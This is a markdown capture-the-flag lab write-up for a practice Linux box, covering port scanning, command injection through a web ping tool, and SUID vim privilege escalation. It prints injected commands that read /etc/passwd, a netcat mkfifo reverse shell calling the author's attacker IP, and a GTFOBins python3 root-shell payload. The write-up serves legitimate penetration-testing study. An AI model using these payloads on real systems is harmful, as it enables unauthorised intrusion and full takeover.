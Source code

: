 ```yaml
---
Alias: Shakabra
Date: 5/4/22
Platform: Linux
Difficulty: Easy
Tags:
Status: Finished
IP: 192.168.127.86
---
```


# {{Shakabra}}


# Resolution summary
- Text
- Text

## Improved skills
- skill 1
- skill 2

## Used tools
- nmap
- rustscan


---

# Information Gathering
Scanned all TCP ports:
```bash
rustscan --addresses 192.168.127.86 --ulimit 5000 -- -A -sC -Pn -sV -T 1500
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
0day was here ♥

[~] The config file is expected to be at "/home/brian/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 192.168.127.86:22
Open 192.168.127.86:80
[~] Starting Script(s)
[>] Running script "nmap -vvv -p {{port}} {{ip}} -A -sC -Pn -sV -T 1500" on ip 192.168.127.86
Depending on the complexity of the script, results may take some time to appear.
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
[~] Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-18 18:04 PDT
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 18:04
Completed NSE at 18:04, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 18:04
Completed NSE at 18:04, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 18:04
Completed NSE at 18:04, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 18:04
Completed Parallel DNS resolution of 1 host. at 18:04, 0.01s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 18:04
Scanning 192.168.127.86 [2 ports]
Discovered open port 80/tcp on 192.168.127.86
Discovered open port 22/tcp on 192.168.127.86
Completed Connect Scan at 18:04, 30.08s elapsed (2 total ports)
Initiating Service scan at 18:04
Scanning 2 services on 192.168.127.86
Completed Service scan at 18:04, 6.34s elapsed (2 services on 1 host)
NSE: Script scanning 192.168.127.86.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 18:04
Completed NSE at 18:05, 4.86s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 18:05
Completed NSE at 18:05, 0.32s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 18:05
Completed NSE at 18:05, 0.00s elapsed
Nmap scan report for 192.168.127.86
Host is up, received user-set (0.081s latency).
Scanned at 2022-10-18 18:04:35 PDT for 26s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33:b9:6d:35:0b:c5:c4:5a:86:e0:26:10:95:48:77:82 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDKxggEEcOcfAnY39JxZPtqfSeoP5ELSTfKdMZW1gwC5cdbN+n+rNZtzEFPJtRQrUGYntWi9OI642XAYf/w7EYnahMudH6sEkBBnycJB9mpMznx6j2woFqEC99hV2Kv+HrKBfUVH2ZottNDMTAeHmAQn38urRKTSw5XRL2lIHyjAlQuhBC9G0IOHSQevab1JO7QMS7RinkKMuK471IKEiGo6cs2qYl7s5/mbPzn74ItxZyjMaNreraKLzxxUv2rXO4D1KLJGH8hoHCdoueHenF0jA4mggOLtx33gi/Dwj65GZqz3up/93Rk3KFx9PDH81Wl/RMXzJPHObWTXFUgYCPR
|   256 a8:0f:a7:73:83:02:c1:97:8c:25:ba:fe:a5:11:5f:74 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOmK6n2750Zgk5TzwOOVaORuM6X+mZvgnDZ089sXvhfp5r09499qYQzThIXcaOuWpDmzP2e/eK27h5teQUyF+Bw=
|   256 fc:e9:9f:fe:f9:e0:4d:2d:76:ee:ca:da:af:c3:39:9e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINPPEuspoT6EYlb7TZCsDgkEBtBHIlzl8yu089UQJsA8
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 18:05
Completed NSE at 18:05, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 18:05
Completed NSE at 18:05, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 18:05
Completed NSE at 18:05, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.93 seconds

```

Enumerated open TCP ports:
```bash
80
22
```

Enumerated top 200 UDP ports:
```bash

```

---

# Enumeration
## Port 80 - Apache httpd 2.4.29

#### As port 80 was found to be open per nmap scan; I navigated to the boxes IP address and found the below webpage: 

![](Pasted%20image%2020221018181215.png)

#### As "127.0.0.1 was already populated in the "ping" bar I input "127.0.0.1" into it and clicked go and found the below ping results: 

![](Pasted%20image%2020221018181341.png)

#### I then typed ";cat /etc/passwd" (adding a semicolon at the end of 127.0.0.1) and found the below user "dylan" on the system: 

![](Pasted%20image%2020221018181441.png)
#Command_Injection 

#### Then typed "; which nc" and found the machine had nc installed:

![](Pasted%20image%2020221018181531.png)

![](Pasted%20image%2020221018181603.png)

---

# Exploitation
## Name of the technique
## Command injection from connection tester tool

#### I attempted to type the usual netcat one liner reverse shell syntax but didn't work. I then tried "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [kali IP] [Listener Port] >/tmp/f" found in "pentestmonkey.net" but had to modify it to the following in order to get it to work: "rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.53.200 80 >/tmp/f" (the modification I added was the "-f" after command "rm") 

#### Ran the syntax above on the connection tester tool and had a listener listening on my kali machine and received a reverse shell 

![](Pasted%20image%2020221018181728.png)

---

# Privilege Escalation
## Local Enumeration

#### Typed "find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null" to find SUID binaries and found the following "vim.basic" set as SUID bit: 
![](Pasted%20image%2020221018183948.png)


## Privilege Escalation vector
## VIM SUID Binary

#### Found "vim" in GTFOBins site and followed the instructions to run the binary and type colon to enter "enter command mode" and prepend py3 to the command as the machine only has python3 and typed ":py3 import os; os.exec("/bin/sh", "sh", "-pc", "reset; exec sh -p")" and then enter and then when asked "which terminal?" Enter "xterm" and then received a root shell: 

![](Pasted%20image%2020221018184110.png)

![](Pasted%20image%2020221018184146.png)

![](Pasted%20image%2020221018184222.png)
#VIMsuidBinary
---

